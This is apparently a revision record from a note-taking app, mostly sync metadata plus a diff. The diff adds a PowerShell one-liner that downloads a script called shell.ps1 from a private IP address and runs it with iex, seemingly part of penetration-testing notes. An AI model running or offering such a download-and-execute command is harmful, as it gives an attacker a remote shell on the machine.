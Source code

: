 id: 57eb83c9f7334f32a247ca16f21b7d1f
parent_id: e63a0355fa5b4ed1a5c3e30c99b84df9
item_type: 1
item_id: 1a72f4e7464d467d810fc01a3adf9ed0
item_updated_time: 1651740762721
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ort 5001\"],[1,\"\\\n\\\npowershell -c \\\\\\\\\\\"iex (New-Object Net.WebClient).DownloadString('http://10.1.1.246/shell.ps1')\\\\\\\\\\\"\"]],\"start1\":1660,\"start2\":1660,\"length1\":8,\"length2\":106}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-05T08:53:21.110Z
created_time: 2022-05-05T08:53:21.110Z
type_: 13